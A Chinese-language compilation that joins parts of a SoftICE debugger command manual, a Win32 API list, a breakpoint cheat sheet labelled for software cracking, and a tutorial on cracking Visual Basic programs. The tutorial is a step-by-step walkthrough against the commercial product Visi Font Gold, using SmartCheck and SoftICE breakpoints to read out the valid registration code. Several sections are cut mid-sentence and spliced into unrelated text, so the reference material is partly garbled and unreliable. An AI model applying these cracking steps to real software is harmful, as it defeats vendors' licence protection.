在你输入资料的时候, 真正内存上的值也随之更新。所有的数字值都是以 16 进位表示。按 Tab 键可以在数字区和 ASCII 区间切换。

如果资料窗是可见的, 则在其中修改资料; 否则在命令窗中修改。资料显示的长度, 在命令窗中内定为 8 行。如果资料窗是可见的, 则和资料窗同大小。如果未加参数且资料窗是可见的, 则游标会移到资料窗中。若资料窗是不可见的, 则在命令窗中由最后一次显示或编辑的地址开始进行编辑。

〔例〕 `EB 1000:0`
这道命令由 1000:0000 开始, 以字节的形态, 用数字和 ASCII 字符显示资料的值。你可以编辑这些显示出来的值。

〔例〕 `EB 8000:0 "HELLO", 0D`
这道命令把从 8000:0000 开始的值以 HELLO 字符串和一个归位字符代替。

### INT ——显示最后一次呼叫的中断号码

语法: `INT`

解说:
INT 命令显示最后一次发生的中断号码及其地址。

〔例〕 `INT`
以下是 INT 显示结果的例子:
`Last Interrupt : 16`
`At : 0070 : 0255`

这个例子显示在 Soft-ICE 窗口被叫出的前, 系统最后一次呼叫的是 16h 中断, 地址在 0070:0255。如果最后一次中断是个软件中断, 从 0070:0255 做反编译会显示此中断的程序代码。若是个硬件中断, 反编译则会显示中断发生时所执行的程序代码。

### ? 或 H——显示辅助信息

语法: `? | H [command | expression]`

解说:
`?` 和 `H` 命令两者均会显示辅助信息。

如果未指定参数将会一次一个屏幕地显示所有命令和运算子的简单解说。按任意键以继续显示或按 ESC 键离开辅助说明。若有指定参数则会显示包括命令语法及范例的详尽说明。

如果加上运算式, 则会计算并以 16 进位、10 进位及 ASCII 字符显示其结果。

〔例〕 `ALTKEY`
这道命令会显示包括 ALTKEY 命令的语法及范例的资料。

〔例〕 `H 10 + 14 * 2`
这道命令会显示: `0038 00056 "8"`。这是 10 + 14 * 2 的 16 进位、10 进位值及 ASCII 字符。

### VER——显示 Soft-ICE 的版本号码

语法: `VER`

〔例〕 `VER`
这道命令会显示 Soft-ICE 的版本及 Nu-Mega 的版权信息。

## 四、I/O 端口命令

- **I, IB** —— 由字节 I/O 端口输入
- **IW** —— 由字 I/O 端口输入
- **O, OB** —— 由字节 I/O 端口输出
- **OW** —— 由字 I/O 端口输出

### I, IB, IW——由 I/O 端口输入

语法：`I size port`

- **size** —— B: byte, W: word, D: double word
- **port** —— 一个字节或字的值

解说：
这个由端口输入的命令是用来读取及显示硬件端口的值的。你可以从字节或字组端口输入。如果没有指定 size，内定值是字节。

〔例〕 `I 21`
这道命令是显示一号中断控制器的屏蔽暂存器的值。

### O, OB, OW——由 I/O 端口输出

语法：`O size port value`

- **size** —— B: byte, W: word, D: double word
- **port** —— 一个字节或字的值
- **value** —— 字节端口为一字节值；字端口为一字值

解说：
对端口输出的命令是用来对硬件端口写值的。你可以对字节端口或字端口做输出，如果没有指定 size，内定值是字节。

〔例〕 `O 21 FF`
这道命令会屏蔽住一号中断控制器的所有中断。

## 五、转换控制命令

- **X** —— 离开 Soft-ICE 的窗口
- **G** —— 执行到某地址
- **T** —— 跟踪一道程序代码
- **P** —— 单步执行程序
- **HERE** —— 执行到目前游标那行
- **GENINT** —— 强制某一中断
- **EXIT** —— 强制离开目前的 DOS 程序
- **BOOT** —— 载入系统（保留 Soft-ICE）
- **HBOOT** —— 硬件系统载入（完全重设）

### X——离开 Soft-ICE 的窗口

语法：`X`

解说：
X 命令会离开 Soft-ICE 窗口并恢复因叫出 Soft-ICE 而中断的程序的控制权。Soft-ICE 窗口会消失。如果有设置任何断点，它将被启动。

### G——执行到某地址

语法：`G [=start-address] [break-address]`

解说：
G 命令会离开 Soft-ICE 窗口并设置一个只用一次的执行断点。除此之外，所有的 sticky 断点也会被启动。

若有指定 start-address 参数，将从 start-address 开始执行；否则会从目前的 CS:IP 开始执行。程序将一直执行，直到达到 break-address、使用了叫出窗口的热键或 sticky 断点发生才会停止。

break-address 必须是一道程序代码的第一字节。当达到指定的 break不完全能重入，若断点发生在 DOS 或 ROM BIOS 在执行时，调试器可能无法正常的工作。

如果设定 WARN ON 而且 ACTION 不是 HERE，在真正动作发生前会先把控制权交给 Soft-ICE。系统会显示目前 CS:IP 并让你决定是要继续或是回到 Soft-ICE。一般而言，你应该选择回到 Soft-ICE 以继续调试。只有在你确定不会造成 DOS 或 ROM BIOS 重入时才可选择继续。

在 Soft-ICE 和 DEBUG、SYMDEB 及 CodeView 一起使用时应该把 WARN 设为 ON。

如果未加参数将会显示目前 WARN 的状态。

WARN 的内定值是 OFF。

〔例〕 `WARN ON`

这道命令会打开 DOS/ROM BIOS 重入警告模式。

### BREAK——在任何时候中断

**语法：** `BREAK ON | OFF`

**解说：**

BREAK 命令让你即使在关闭中断的状况下也能从当掉的系统叫出 Soft-ICE。你可以在整个调试过程中使用 BREAK 模式或在需要时开关它。

BREAK 模式会些微的降低系统的效率。系统的效率虽会降低，但却可以跳出当掉的程序。即使效率会降低，若是程序随时可能会当掉，使用者还是可能会一直使用 BREAK 模式。不像其他也可以随时叫出的调试器，Soft-ICE 不需要外加的开关。当 BREAK 为 ON 时，只要按热键即可叫出 Soft-ICE。

如果没有加参数将会显示目前 BREAK 的状态。

BREAK 的内定值是 OFF。

〔例〕 `BREAK ON`

这道命令会打开 BREAK 模式。这意味着即使关闭中断，Soft-ICE 也可随时叫出。

### I3HERE——把 INT 3 指向 Soft-ICE

**语法：** `I3HERE ON | OFF`

**解说：**

I3HERE 命令让你指定所有的 INT 3h 均会叫出 Soft-ICE 的视窗。这项功能在你想让程序停在某特定位置时很有用。要使用这项功能，在你的程序码中你想停下来的位置加上 INT 3 命令。当 INT 3 发生时会叫出 Soft-ICE 视窗。这时候，你可以使用 R IP 命令来改变指令指标指向 INT 3 的下一个程序码；然后你可以继续进行调试。如果没有加参数将会显示目前 I3HERE 的状态。

I3HERE 的内定值是 OFF。

〔例〕 `I3HERE ON`

这道命令会打开 I3HERE 模式。在这之后的所有 INT 3 均会叫出 Soft-ICE 视窗。

## 七、公用命令

命令：

- A——编译程序码
- S——搜寻资料
- F——将资料填入内存
- M——搬移资料
- C——比较两记忆区块

### A——编译程序码

**语法：** `A address`

**解说：**

Soft-ICE 的编译器允许你把程序码直接编译进内存中。这个编译器支持基本的 8086 程序码及 80186、80286 真实定址模式的扩充。但是运算辅助器及 80386 的特殊程序码、暂存器定址模式等无法编译。

A 命令会进入 Soft-ICE 内建的编译器。每行前会显示地址当提示符号。当组合语言的程序码打入并按下 Enter 后，此程序码会编译进指定地址的内存中。程序码必须符合标准的 Intel 模式。在地址提示符号下按 Enter 会离开编译模式。

如果你正编译的内存范围在程序码窗中是可见的，在你编译时程序码会交互变化。

Soft-ICE 的编译器支援标准的 8086 族命令，不过有些加强：

- DB 命令用来直接定义内存中的字节资料。DB 命令后接一串字节资料或/和由空白、逗号分隔的字符串。
- RETF 代表一个 far return。
- WORD PTR 和 BYTE PTR 用来决定资料的大小。如：`MOV BYTE PTR ES:1234, 1`
- 使用 FAR 和 NEAR 以明确的指定远程或近程的跳跃或呼叫。如果未指定 FAR、NEAR，一律视为 NEAR 。
- 参考到内存位置的运算域必须放在方括号中。如：`MOV AX, [1234]`。

〔例〕 `A CS:1234`

这道命令会提示你输入组合语言码并从 CS:1234 开始编译的。输入最后一道程序码后在地址提示符号后按 Enter。

### S——搜寻资料

**语法：** `S address L length data-list`

**data-list** —— 一串字节资料或以逗号、空白分隔的加引号字符串。加引号的字符串可以使用单引号或双引号。

**length** —— 字节长度。

**解说：**

S 命令会在内存中搜寻和 data-list 相同的字节或字元。搜寻的动作由指定的 address 开始，持续搜寻 length 字节。每个发现的地址都会显示出来。

〔例〕 `S DS:SI+10 L CX 'Hello', 12, 34`

这道命令会从目前的资料节段中差距地址为 SI+10 处开始搜寻 Hello 字串后接 12h、34h 的资料。搜寻会持续 CX 字节才停止。

### F——将资料填入内存

**语法：** `F address L length data-list`

**data-list** —— 一串字节资料或以逗号、空白分隔的加引号字符串。加引号的字符串可以使用单引号或双引号。

**length** —— 字节长度。

**解说：**

F 命令会用指定的 data-list 来填满内存。填入的动作会从指定的 address 开始并持续 length 字节。如果有需要会重复 data-list。

〔例〕 `F 8000:0 L 100 'Test'`

这道命令会从 8000:0000 开始填入 100h 字节的 Test。Test 字符串会一直重复直到填完指定的长度。

### M——搬移资料

**语法：** `M start-address L length end-address`

**length** —— 字节长度。

**解说：**

M 命令会从指定的 start-address 搬移 length 字节的资料到 end-address。

〔例〕 `M 1000:0 L 200 2000:0`

这道命令会从内存地址 1000:0000 处搬移 200h 字节的资料到 2000:0000 处。

### C——比较两记忆区块

**语法：** `C address1 L length address2`

**length** —— 字节长度。

**解说：**

C 命令会拿 address1 处 length 字节大小的内存区块和 address2 处的资料做比较。如果第一块区块的值和第二块的值不同时会显示两者各自的值及其内存地址。

〔例〕 `C 5000:100 L 10 6000:100`

这道命令会比较从内存地址 5000:100 开始 10h 字节的内存区块和从 6000:100 开始 10h 字节的内存区块的值。

## 八、特别的调试命令

命令：

- SHOW——显示在 history buffer 中的程序码
- TRACE——进入模拟跟踪模式 trace simulation
- XT——在模拟跟踪模式中进行单步执行
- XP——在模拟跟踪模式中进行程序单步
- XG——在模拟跟踪模式中执行到某地址
- XRSET——重设回溯跟踪缓冲区 back trace buffer
- VECS——储存/还原/比较中断向量
- SNAP——拍下内存区段的快照
- EMMMAP——显示 EMM 分配图

### SHOW——显示在 history buffer 中的程序码

**语法：** `SHOW B | start`

**B** —— 这会使 SHOW 命令从缓冲区中最早的程序码开始显示。

**start** —— 从缓冲区中最后一个程序码（最后抓入的程序码）的前多少程序码开始显示。

**解说：**

SHOW 命令会显示在回溯跟踪缓冲区中的程序码。如果有程序码的原始码，会以混合的方式显示；否则只显示程序码。

SHOW 命令可以用上、下、PageUp、PageDown 等键来卷动。按 Esc 键以离开 SHOW 命令。在每道程序码地址的前有个缓冲区记入号码。这个号码表示你多深入显示缓冲区。号码越高表示你在缓冲区中更深的地方。

〔注〕在使用 SHOW 命令的前必须先用范围回溯跟踪记录程序码。参阅第九章以取得更多有关范围回溯跟踪的资讯。

〔建议〕把程序码窗设为可见并在其中显示目前回溯跟踪缓冲区的真正程序码区段是很有用的。以此比较程序码和真正的流程时较不会为跳跃和呼叫困扰。

在 TRACE 命令后接着使用 SHOW 命令可以让你用两种不同的观点来看在回溯跟踪缓冲区中的程序码。

〔例〕 `SHOW 40`

这道命令会从回溯跟踪缓冲区倒数第 40 个程序码开始显示。

### TRACE——进入模拟跟踪模式 trace simulation

**语法：** `TRACE start | OFF`

**start** —— 从缓冲区中最后一个程序码（最后抓入的程序码）的前多少程序码开始模拟跟踪。

**OFF** —— 离开模拟跟踪模式。

**解说：**

TRACE 命令让你可以把回溯跟踪缓冲区中的程序码以宛如第一次执行的情形再重播一次。你必须把程序码窗设为可见才能使用模拟跟踪模式。进入模拟跟踪模式后，你可以使用 XT、XP 和 XG 命令来跟踪缓冲区中的程序码。

输入 TRACE OFF 以离开模拟跟踪模式。

未加参数的 TRACE 命令会显示目前模拟跟踪模式是 ON 或 OFF。

〔注〕在使用 TRACE 命令的前必须先用范围回溯跟踪记录程序码。参阅第九章以取得更多有关范围回溯跟踪的资讯。

〔建议〕在程序码窗设为可见的状态下模拟跟踪模式可发挥最大功能。把 TRACE 命令和 SHOW 命令连接使用是很有用的。这会同时以两种不同的型式显示回溯跟踪缓冲区中的程序码。

〔例〕 `TRACE 40`

这道命令会从回溯跟踪缓冲区倒数第 40 个程序码开始进入模拟跟踪模式。在输入 TRACE OFF 命令的前会一直留在模拟跟踪模式。

### XT——在模拟跟踪模式中进行单步执行

**语法：** `XT R`

**R** —— 反向进行单步执行。

**解说：**

XT 命令会单步执行在回溯跟踪缓冲区中的程序码。这个命令的行为类似普通调试中的 T。要注意的是在模拟跟踪模式中单步执行不会改变除了 CS、IP 外的暂存器的值。

XT 命令让你可以重播回溯跟踪缓冲区中的程序码。

〔注〕在使用 XT 命令的前必须先进入模拟跟踪模式。参阅第九章及 TRACE 命令以取得更多有关范围回溯跟踪的资讯。

〔建议〕如果你常常使用 XT 命令，它可以像其他命令一样设个功能键代替。

〔例〕 `XT`

这道命令会在模拟跟踪模式中单步执行一道程序码。

### XP——在模拟跟踪模式中进行程序单步

**语法：** `XP`

**解说：**

XP 命令会在回溯跟踪缓冲区中进行一程序单步。这个命令的行为类似普通除错中的 T。要注意的是除了 CS- DOWN —— 把程序码窗向下卷一行。
- PageUp —— 把程序码窗向上卷一页。
- PageDown —— 把程序码窗向下卷一页。
- 〔注〕 程序码窗必须是可见的，Soft-ICE 命令才能使用。
- . —— 定位目前的程序码
  - 语法：.
  - 解说：当程序码窗是可见的时候，“.”命令会显示目前的程序码。

## 十、调试器设定命令

- PAUSE —— 显示满一个屏幕后暂停
- ALTKEY —— 设定 Soft-ICE 的启动热键
- FKEY —— 显示、修改功能键
- BASE —— 设定/显示目前的基数
- CTRL-P —— 把 LOG 送到打印机
- Print-Screen —— 印出目前屏幕
- PRN —— 设定打印机的输出端口

### PAUSE —— 显示满一个屏幕后暂停
- 语法：PAUSE ON | OFF
- 解说：PAUSE 命令会在每一页的结束时暂停屏幕。如果 PAUSE 设为 ON，Soft-ICE 会提示你按任意键以继续卷动视窗，提示信息会显示在屏幕底部的状态行里。如果没有指定任何参数则会显示目前 PAUSE 的状态。PAUSE 的内定值是 ON。
- 〔例〕PAUSE ON
  这个命令指定接下来屏幕上的显示会等你输入任意键后才继续卷动。

### ALTKEY —— 设定 Soft-ICE 的启动热键
- 语法：ALTKEY ALTletter | CTRLletter | SYSREQ
- letter —— 任何一字母 A-Z
- 解说：ALTKEY 命令可以让你改变用来叫出 Soft-ICE 的热键。你可以把热键改成 CTRL + 字母、ALT + 字母或是 SysRq 即 PrtScr 键。

有时候你或许会使用会和 Soft-ICE 的 Ctrl-D 热键相冲突的程序，避免这种冲突的方法之一是使用 ALTKEY 命令改变叫出 Soft-ICE 的热键。另一个方法则是在热键组合中多按个 SHIFT 键，Soft-ICE 对这样的组合不会有反应，所以能把热键传到你的程序去。举例来说，如果你使用的常驻程序是以 Ctrl-D 叫出来的，试着用 Ctrl-Shift-D 来叫出你的程序。有些键盘上你必须按 Alt-PrtScr 来模拟发出个 System Request。小心不要意外地把屏幕上的东西印了出来。

如果没有指定参数则会显示目前的热键。内定的热键是 Ctrl-D。
- 〔例〕ALTKEY ALT Z
  这道命令指定 Alt-Z 是叫出 Soft-ICE 的热键。

### FKEY —— 显示、修改功能键
- 语法：FKEY function-key-name string
- function-key-name —— F1, F2... F12
- string —— string 包含任何 Soft-ICE 的命令和特殊字元：^ 及 ;。^ 是用来让命令不显示出来，; 则代表按下 Enter。
- 解说：FKEY 命令是用来指定某功能键所代表的命令字符串，功能键可设定来代表任何 Soft-ICE 中的命令。如果没有指定参数则会显示目前各功能键代表的命令。要取消某个功能键可以用这样的方法：FKEY 加 function-key-name，然后接上一个空白字符串。

你也可以在设定档 S-ICE.DAT 中预先指定功能键的功能。参阅 6.4 以取得更多有关在设定档中设定功能键的资讯。

在功能键设定字符串中加上归位键的符号可以让一个功能键代表一系列的命令。归位键是用 ; 来表示。如果你在功能键的设定前面加上 ^ (Shift-6)，则接下来的命令将不会显示出来。命令的作用还是一样没变，但是显示在命令窗中的所有信息（包括错误讯息）都不会再出现。这个模式在命令会改变视窗中资料而你又不想因此造成命令窗中的混乱时特别有用。

当功能键有加上 ^ 设定时，你可以在键入其他命令的途中使用这个功能键而不会对输入中的命令造成任何影响。例如，如果你使用的是 F2 的内定值，你可以在输入下一个命令的时候按 F2 来切换暂存器窗。

〔注〕Soft-ICE 有个 S-ICE.DAT 的设定档，你可以把功能键的设定写在这个档案中，这样在载入 Soft-ICE 的时候会自动设定功能键。在设定档中设定功能键的语法是：function-key-name = "string"。在设定档中设定功能键的时候要用双引号把字符串括起来。

- 〔例〕FKEY F2 ^WR;
  这道命令用来设定 F2 代表切换暂存器窗的命令，^ 代表这个命令不会显示出来，; 代表按下 Enter。如此 F2 键就可以用来切换暂存器窗的 on 或 off，而且即使是在输入其他命令的时候也可以随时使用。
- 〔例〕FKEY F1 "G CS:120; R; G CS:"
  这个例子显示你可以用一个功能键代表许多命令，也可以代表一个命令的一部分，等待使用者的输入来完成它。输入这道命令后，按下 F1 键会执行到 CS:120 处，显示目前的暂存器的值，然后显示 G 命令等待使用者的输入。
- 〔例〕FKEY F1 "WD 3; D DS:100;"
  这个例子会设定 F1 键代表一串命令。这个按键是可见的，而且以 Enter 结束。它会把资料窗设为三行的大小并显示从 DS:100 处起的资料。
- 〔例〕F1 = "WR; WD 2; WC 10;"
  如果这一行是放在 S-ICE.DAT 中，当载入 Soft-ICE 时会自动设定 F1 键。当在 Soft-ICE 中按下 F1 键时，它会切换暂存器窗，打开一个 2 行的资料窗，及一个 10 行的程序码窗。

### BASE —— 设定/显示目前的基数
- 语法：BASE 10 | 16
- 解说：BASE 命令是用来设定基数是以 10 或 16 为底。以 10 为底在小视窗模式中会受到限制，这是受到视窗宽度的影响。即使是在大视窗模式中，有些命令显示的资料数目也会受限制。当基数为 10 的时候，所有输入和显示的数字和地址都是以十进制表示。如果基数是 16 的话，则是除了原始码行号，WIN 命令中的屏幕座标、大小以 10 进制表示外，均为 16 进制。基数的内定值是 16。
- 〔例〕BASE 16
  这道命令会把基数设为 16。

### Ctrl-P —— 把 LOG 送到打印机
- 语法：Ctrl-P
- 解说：在你按下 Ctrl-P 后，所有显示在命令窗中的信息也会被送到打印机去。要停止把 LOG 送到打印机的动作只要再按一次 Ctrl-P 即可。当你用 Ctrl-P 送许多资料到打印机时，或许你会想把 PAUSE 设为 OFF，这样资料才可以一直卷动下去而不需要去按键。

### Print-Screen —— 印出目前屏幕
- 语法：Print-Screen
- 解说：按下 Print-Screen 键后会把整个屏幕上的东西全部输送到打印机中去。如果你只是想印出内存内容或是某个命令的辅助资料，使用 Ctrl-P 会比用 Print-Screen 快得多，这是因为 Print-Screen 会把屏幕上包括边界的每个字元都送到打印机去。

### PRN —— 设定打印机的输出端口
- 语法：PRN LPTx | COMx
- x —— 介于 1 到 4 的数字
- 解说：PRN 命令允许你把 Ctrl-P 和 Print-Screen 的资料送到不同的打印机去。如果没有指定参数则会显示目前指定的打印机。
- 〔例〕PRN COM1
  这道命令会把 Ctrl-P 和 Print-Screen 的输出送到 COM1 端口去。

## 十一、屏幕控制命令

- FLASH —— 执行 P 或 T 命令时还原屏幕
- FLICK —— 减轻屏幕的闪烁
- WATCHV —— 设定监控显示模式
- RS —— 显示程序屏幕
- CLS —— 清除视窗
- ALTSCR —— 转换到替换屏幕
- WIN —— 改变 Soft-ICE 的视窗大小

### FLASH —— 执行 P 或 T 命令时还原屏幕
- 语法：FLASH ON | OFF
- 解说：FLASH 命令让你指定在 T 或 P 命令执行时是否要还原屏幕。如果你指定要还原屏幕，则在 T 或 P 命令执行的时候会短暂地还原一下。在对会存取 Video Memory 的程序片段时你会需要用到这个功能。如果 P 命令用来执行一个 CALL 或中断，则一定会有屏幕还原的动作，因为执行的函式中可能会对屏幕写入。如果没有指定参数则会显示目前 FLASH 的状态。FLASH 的内定值是 OFF。
- 〔例〕FLASH ON
  这道命令会把 FLASH 的状态设为 ON。执行任何 P 或 T 命令时会还原屏幕。

### FLICK —— 减轻屏幕的闪烁
- 语法：FLICK ON | OFF
- 解说：有些显示卡在输出字元之前要先等垂直、水平扫描完成才行。如果任意地输出，在显示字元时将会发生闪烁的现象。如果你使用 Soft-ICE 时屏幕会有闪烁的现象，你应该把 FLICK 设为 ON。有些 EGA 卡上你离开 Soft-ICE 时颜色可能没有还原得很正确，这是模拟的 EGA 显示的问题。3DA 端口是个有两个功能的显示端口。第一种是一些老旧的 CGA 软件靠 3DA 来做 hsync 和 vsync，这样可以避免在一些老旧的 CGA 控制卡上造成闪烁的现象。第二个功能则是用来重新设定 EGA 卡的调色盘。Soft-ICE 有个演算法可以不用一直监控这个端口，一直监控会减慢一些认为自己在 CGA 卡上执行的老旧程序的速度。但是在某些状况下，这套演算法可能无法使用。如果你是在 EGA 上使用 Soft-ICE 而且发现颜色并没有正确地还原的话，把 FLICK 设为 ON，这样 Soft-ICE 会监控 3DA 端口从而解决这个问题。当 FLICK 设为 ON 时，屏幕更新的速度会变慢。如果没有指定参数则会显示目前 FLICK 的状态。FLICK 的内定值是 OFF。
- 〔例〕FLICK ON
  这道命令会把 FLICK 模式设为 ON。Soft-ICE 会等水平、垂直扫描完成后再输出字元。

### WATCHV —— 设定监控显示模式
- 语法：WATCHV ON | OFF
- 解说：WATCHV 命令让你指定 Soft-ICE 要如何监控显示端口。通常 Soft-ICE 只有在执行 INT 10 切换到非文字模式后才监控显示端口。但是有些程序不用 INT 10 来切换显示模式，这种状况下，如果 WATCHV 设为 OFF，则 Soft-ICE 在储存或还原屏幕时可能会发生问题。把 WATCHV 设为 ON 则会让 Soft-ICE 随时监控显示端口。如果你发现 Soft-ICE 并未正确地处理你的屏幕，或不能正确地还原游标的位置，把 WATCHV 设为 ON。把 WATCHV 设为 ON 可能会影响目前显示模式的效率。如果没有指定参数则会显示目前 WATCHV 的状态。WATCHV 的内定值是 OFF。
- 〔例〕WATCHV ON
  这道命令会把 WATCHV 设为 ON。

### RS —— 显示程序屏幕
- 语法：RS
- 解说：RS 命令让你暂时还原

- GetFileTime 取得指定文件的时间信息
- GetFileType 在给出文件句柄的前提下，判断文件类型

### 5. 注册表处理函数
- RegOpenKeyA 打开一个现有的注册表项
- RegOpenKeyExA 打开一个现有的注册表项
- RegCreateKeyA 在指定的项下创建或打开一个项
- RegCreateKeyExA 在指定项下创建新项的更复杂的方式
- RegDeleteKeyA 删除现有项下方一个指定的子项
- RegDeleteValueA 删除指定项下方的一个值
- RegQueryValueA 获取一个项的设置值
- RegQueryValueExA 获取一个项的设置值
- RegSetValueA 设置指定项或子项的值
- RegSetValueExA 设置指定项的值
- RegCloseKey 关闭系统注册表中的一个项（或键）

### 6. 时间处理函数
- CompareFileTime 比较两文件时间
- GetFileTime 取得文件建立、最后访问、修改时间
- GetLocalTime 取得当前本地时间
- GetSystemTime 取得当前系统时间
- GetTickCount 取得 Windows 启动至现时的毫秒数
- SetFileTime 设置文件时间
- SetLocalTime 设置本地时间
- SetSystemTime 设置系统时间

### 7. 进程函数
- CreateProcessA 创建一个新进程
- ExitProcess 以干净的方式关闭一个进程
- FindExecutableA 查找与一个指定文件关联在一起的程序的文件名
- FreeLibrary 释放指定的动态链接库
- GetCurrentProcess 获取当前进程的一个伪句柄
- GetCurrentProcessId 获取当前进程一个唯一的标识符
- GetCurrentThread 获取当前线程的一个伪句柄
- GetExitCodeProcess 获取一个已结束进程的退出代码
- GetExitCodeThread 获取一个已结束线程的退出代码
- GetModuleHandleA 获取一个应用程序或动态链接库的模块句柄
- GetPriorityClassA 获取特定进程的优先级别
- LoadLibraryA 载入指定的动态链接库，并将它映射到当前进程使用的地址空间
- LoadLibraryExA 装载指定的动态链接库，并为当前进程把它映射到地址空间
- LoadModule 载入一个 Windows 应用程序，并在指定的环境中运行
- TerminateProcess 结束一个进程

## 二、中断点设置技巧

设置正确的 SoftICE 断点，无论是对于 CRACK 软件还是调试软件都是非常重要的。虽然一些 CRACK 教学文件里有教，但往往不够全面，用的时候无从找起。现在整理出这篇断点集合，分门别类，方便大家查阅。

一般处理：
- bpx hmemcpy
- bpx MessageBox
- bpx MessageBoxExA
- bpx MessageBeep
- bpx SendMessage
- bpx GetDlgItemText
- bpx GetDlgItemInt
- bpx GetWindowText
- bpx GetWindowWord
- bpx GetWindowInt
- bpx DialogBoxParamA
- bpx CreateWindow
- bpx CreateWindowEx
- bpx ShowWindow
- bpx UpdateWindow
- bmsg xxxx wm_move
- bmsg xxxx wm_gettext
- bmsg xxxx wm_command
- bmsg xxxx wm_activate

时间相关：
- bpint 21 if ah==2A (DOS)
- bpx GetLocalTime
- bpx GetFileTime
- bpx GetSystemTime
- bpx GetTickCount

CD-ROM 或磁盘相关：
- bpint 13 if ah==2 (DOS)
- bpint 13 if ah==3 (DOS)
- bpint 13 if ah==4 (DOS)
- bpx GetFileAttributesA
- bpx GetFileSize
- bpx GetDriveType
- bpx GetLastError
- bpx ReadFile
- bpio -h Your_CD-ROM_Port_Address R

软件狗相关：
- bpio -h 278 R
- bpio -h 378 R

键盘输入相关：
- bpint 16 if ah==0 (DOS)
- bpint 21 if ah==0xA (DOS)

文件访问相关：
- bpint 21 if ah==3Dh (DOS)
- bpint 21 if ah==3Fh (DOS)
- bpx ReadFile
- bpx WriteFile
- bpx CreateFile
- bpx SetFilePointer
- bpx GetSystemDirectory

INI 初始化文件相关：
- bpx GetPrivateProfileString
- bpx GetPrivateProfileInt
- bpx WritePrivateProfileString
- bpx WritePrivateProfileInt

注册表相关：
- bpx RegCreateKey
- bpx RegDeleteKey
- bpx RegQueryValue
- bpx RegCloseKey
- bpx RegOpenKey

其他标志相关：
- 注册标志相关：bpx CS:EIP if EAX==0
- 内存标准相关：bpmb CS:EIP rw if 0x30:0x45AA==0
- 显示相关：bpx 0x30:0x45AA do "d 0x30:0x44BB"
- bpx CS:0x66CC do "d EAX"

## Visual Basic 应用程序的破解

众所周知，VB5 和 VB6 应用程序的破解是目前 Windows 下破解的难点之一。曾经在 Windows 下跟踪调试过 VB3 或 VB4 程序的朋友一般都知道，程序代码 99% 的时间里都是在 VBRUNxx 里转来转去，根本看不出个所以然来。这是因为你跟踪的是 VB 的解释器，要从解释器中看出代码的目的是什么是相当困难的。

但解释语言有一个致命的弱点，那就是解释语言的程序代码都是以伪码的方式存放的，一旦被人找到了伪码与源码之间的对应关系，就很容易做出一个反编译器出来，你的源程序就等于被公开了一样。而编译语言因为直接把用户程序编译成机器码，再经过优化程序的优化，很难从程序返回到你的源程序的状态。但对于熟悉汇编语言的解密者来说，也很容易通过跟踪你的代码来确定某些代码的用途。

幸好 SmartCheck 的出现大大地方便了我们。SmartCheck 是 NuMega 公司推出的一款出色的调试解释执行程序的工具，目前最新版是 v6.03。它非常容易使用，你不需了解汇编程序。SmartCheck 能够把一个 VB 程序运行时的各种事件过程展现在你眼前。可谓是破解 VB5 及 VB6 的神兵利器。

下面我们先介绍 SmartCheck，然后举例熟悉，并举一个用 SoftICE 的例子来比较 SmartCheck 这个破解 VB 程序的高效工具。

### 一、安装
SmartCheck 的安装很简单，不过解压缩后安装的目录（比如：C:\Program Files）下最好建一个文件夹。不然，它会很乱地放在 Program Files 下，不便以后管理。

### 二、配置 SmartCheck
SmartCheck 的主界面非常简单，每次用 SmartCheck 破解一个软件时都需要重新配置，所以它的配置是比较重要的。具体步骤如下：

在菜单项选择：Program → Settings 出现图 1（如果你在 SmartCheck 下没有打开应用程序，只出现 3 个菜单选项：Error Detection；Reporting；Program Info）。

- **Error Detection（图 1）**：这里选上所有的选项。“Report error immediately”可根据情况调整，选上后程序执行有错误时会立即出现报告，此时在弹出的报告栏上按 Acknowledge 即可。如果你嫌麻烦可不选此项，如此项没选则不立即报告。建议不要选。
- **Advanced（图 2）**：点击在图 1 中 Advanced 按钮后出现图 2。选上前面的 4 项。注意要确信“Suppress system API and OLE calls”没被选上。
- **Reporting（图 3）**：除了“Report MouseMove events from OCX controls”外其余全选上。

## 三、开始用 SmartCheck 破解

1. 运行 SmartCheck，出现图 4 的界面。这时关掉那个小窗口。
2. 在“File” -> “Open”选择你需要破解的程序。
3. 按 F5 或选择“Program”下的“Start”运行程序，或点击工具栏上的 Start 按钮，即出现界面如图 5。
4. 停止程序，选择“Program” -> “End”，或点击工具栏上的 Stop 按钮。你最好是了解 SmartCheck 工具栏的用法，这样可以大大方便操作。

## 四、程序在 SmartCheck 下运行结束

1. 在 SmartCheck 中应有 3 个小窗口。有时只出现一个主窗口，原来其他两个（右边和下边）完全最小化了，缩到边上去了，可以用鼠标把它们拖出来。
2. 主窗口被称为“Program Results window”，该窗口在左上方。
3. 右边的窗口主要是显示主窗口的一些详细内容，很多重要详细东西都在此，你有可能看到的序列号就在这里。
4. 图 5 左下角的那个窗口里有关于程序运行的好多信息，可能对你有很大的帮助（如图 7）。

在你停止程序后，你应该分析 SmartCheck 给出的信息，你必须选上相关的行，并选择“View” -> “Show All Events”。这需要你有 VB 的相关知识，并了解各比较方法和断点函数。

## 用 SmartCheck 破 Visi Font Gold

运行 Visi Font Gold。它的保密方法是：选择属性 -> 注册，将会出现一个小的注册框，输入你的名字和注册码：
- 名字：ManKind
- 注册码：23199981

我们分别用 SoftICE 和 SmartCheck 破解这个软件，从而比较出 SmartCheck 的高效。我知道这是一个 VB5 的程序。当程序比较真假代码时，在 VB5 中用来比较两个字符串的函数通常是 `__vbaStrCmp`。然后我们进入 SoftICE，在那个函数上设置一个断点以使我们能捕获到真正的注册码：
`bpx __vbaStrCmp`

放下 SoftICE，点击 Unlock 按钮，SoftICE 会停在我们设置的 `__vbaStrCmp` 函数断点上。敲 F11 直到回到函数的呼叫，你将会得到下面的代码：
`0042CAF6 CALL MSVBVM50!__vbaStrCmp`
`0042CAFC MOV ESI, EAX  <-- 你登录的地方`

我们看看进行比较的字符是否保留在一个寄存器中，按照下面的命令操作，找出 EDX 寄存器的内容：
`d EDX`

在 SoftICE 数据窗口中，你会看到屏蔽的名字对应的注册号是宽字节格式的。

## 再用 SmartCheck 破解

如果你已经注册过了，可以先注销这个程序（通过注册表，路径在 `HKCU\Software\VB and VBA Program Settings\Visi Font Gold 2.0\Font Viewer\`）。

运行 SmartCheck，打开 visigold.exe。进入主程序，选择属性 -> 注册，输入名字：ManKind，注册码：23199981。最后点击 Unlock 按钮。破解的错误信息出现后点 OK，返回到 SmartCheck 结束程序。

查看事件，寻找注册事件（通常在点击按钮后，例如 Command1_Click）：

```vb
- Command1_Click
    Text1.Text <- 名字输入区域
    LTrim$ <- 得到名字
    Len returns LONG 7 <- 得到名字的长度
